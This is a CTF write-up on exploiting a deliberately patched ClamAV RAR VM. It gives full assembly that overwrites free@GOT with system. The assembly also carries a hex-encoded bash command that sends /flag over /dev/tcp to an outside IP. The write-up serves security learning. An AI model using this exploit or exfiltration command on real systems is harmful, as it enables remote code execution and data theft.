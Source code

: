 ## Real World CTF 2019

This year's real world CTF was really awesome. It had several improvements from last year. (challenges had more directions and hints, crypto and reverse challenges introduced) I spent a lot of time on Fuchsia IPC reversing (`cai-dan-ti-1`) and peeking at recent PHP commit logs (`MoP`) but I coudldn't solve any of them, which is sad. I managed to solve only one challenge, `anti-anti-virus`. Here is my write-up.

Also, just in case you're curious the pwnables that came out were based on the following topics:<br>
**1> cai-dan-ti (1,2)**: Reversing-Shellcoding-Pwning on Google Fuchsia<br>
**<2> Dezhou Instruments**: Pwning an iPhone application<br>
**<3> MoP**: exploiting a PHP memory corruption bug to bypass `base_dir` and `disable_function` to achieve full RCE.<br>
**<4> Across the Great Wall**: exploiting a userland proxy<br>
**<5> faX senDeR**: some userland pwanble related to XDR, I don't really know much<br>
**<6> accessible & appetizer**: Browser exploitation challenges<br>


## Analysis
We are given a lot of shared library files, two binaries (`clamscan` and `clamdscan`), a readme and a patch.diff file. The readme states that the two binaries were built on version commit ID `6c11e824a794770c469f3a46141d5ea7927b6ea6`, and applied the given patch.diff file. We can actually build clam ourselves, by doing 
```bash
git clone https://github.com/Cisco-Talos/clamav-devel
git reset --hard 6c11e824a794770c469f3a46141d5ea7927b6ea6
apply -s -p1 < ../patch.diff
```

ClamAV is an open source virus scanner. What we should do is to get full RCE when ClamAV is given a file to scan. At first I thought the challenge would be really hard, because the clamscan binary had all protections (PIE, NX, Full RELRO, FORTIFY) enabled and we need to get a reverse shell (the server does not show any output, and leaking the flag bit by bit via time-based approach is not possible due to PoW) without any interactions. It is hard to bypass ASLR in an interactionless-exploit unless the given primitive is really powerful. 

I took a look at the patch file, and spotted mainly two things.<br>
<1> Some structure members' size increased from 4 bytes to 8 bytes. Theoretically, this should not introduce any bugs, but I guess the intention was to make exploitation easier, since in 64bit userspace applications pointers are 8 bytes.<br>
<2> I spotted something that looks like a bounds check elimination. I guessed this is the root bug.<br>

All the patches were done on a file called rarvm.c. RAR is a file format for archiving data. How is VM (Virutal Machine) supposed to be related to it? At first I thought that it was a sandboxed executor for binaries inside the archived rar file. I started analyzing the source code but couldn't understand what rar vm really is. 

After getting some sleep, I google searched about RAR vm. It showed a very old [CVE](https://www.cvedetails.com/cve/CVE-2007-3725/) on ClamAV, which seemed kinda relevant. Also I spotted a [blogpost](http://blog.cmpxchg8b.com/2012/09/fun-with-constrained-programming.html) about rarVM. WTF? RAR has support for custom bytecode, and unrar'ing programs execute them? How surprising. 

I also found [this](https://github.com/taviso/rarvmtools) repository, which implemented a linker and assembler for rar files. I think it was super cool. I decided to use it when constructing my exploit.

Now, I get the point of the challenge: escape the implemented rar VM executor and get RCE

## Exploitation
The bounds check elimination in the patch is the following:
```
-		return ((unsigned int *)&rarvm_data->mem[(*cmd_op->addr+cmd_op->base) & RARVM_MEMMASK]);
+		/* return ((unsigned int *)&rarvm_data->mem[(*cmd_op->addr+cmd_op->base) & RARVM_MEMMASK]); */
+		return ((size_t *)&rarvm_data->mem[(*cmd_op->addr+cmd_op->base) /*& RARVM_MEMMASK*/]);
```
Basically it is a piece of code that translates RAR VM memory addresses to real memory addresses. Originally. the RAR VM memory address was confined from range 0 ~ 0x3fffff. (RARVM_MEMMASK = 0x3fffff) However, the masking is eliminated, so we can access arbitrary addresses relative to `rarvm_data->mem`. With the help of a debugger, I found that mem points to an mmapped chunk address, so we can access all the libraries through it, since libraries are also loaded via mmap and have constant distances from mmapped chunks. My idea was to access the free@GOT of libunrar.so, read the lower 4 bytes, subtract an adequate value so that the 4 bytes are equal to the lower 4 bytes of system, and place those 4 bytes back at free@GOT.

Also, the `mem` pointer must be freed at some point, so I wrote code so that it places commands at the start of `mem`. The start of `mem` can be accessed by the VM address 0. I wrote a helper script, `encode_cmd.py` that generates an assembly code that does this. To prevent the commandline string from overwriting running code, I padded the start with a bunch of NOP sequences. Here is my full exploit.

```
#include <constants.rh>
#include <util.rh>
#include <math.rh>
#include <crctools.rh>

_start:
	; Install our message in the output buffer
	mov r3, #0x0
	add r3, #0x1622bff0 ; offset between unrar start and mmap chunk
	add r3, #0x20C018
	mov r4, [r3]
	sub r4, #296208
	mov [r3], r4 ; change free to system
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	mov r3, #0x0
	
	mov [r3+#0], #0x6e69622f
	mov [r3+#4], #0x7361622f
	mov [r3+#8], #0x632d2068
	mov [r3+#12], #0x2f282220
	mov [r3+#16], #0x2f6e6962
	mov [r3+#20], #0x20746163
	mov [r3+#24], #0x616c662f
	mov [r3+#28], #0x202f2067
	mov [r3+#32], #0x31263e32
	mov [r3+#36], #0x203e2029
	mov [r3+#40], #0x7665642f
	mov [r3+#44], #0x7063742f
	mov [r3+#48], #0x322e312f
	mov [r3+#52], #0x352e3535
	mov [r3+#56], #0x33362e34
	mov [r3+#60], #0x3939392f
	mov [r3+#64], #0x2238
	call $_success
```

Now using rarvmtools, compile this assembly file (it feels weird to do `make paylaod.rar`!) and upload it. It sends the flag to my listening server.

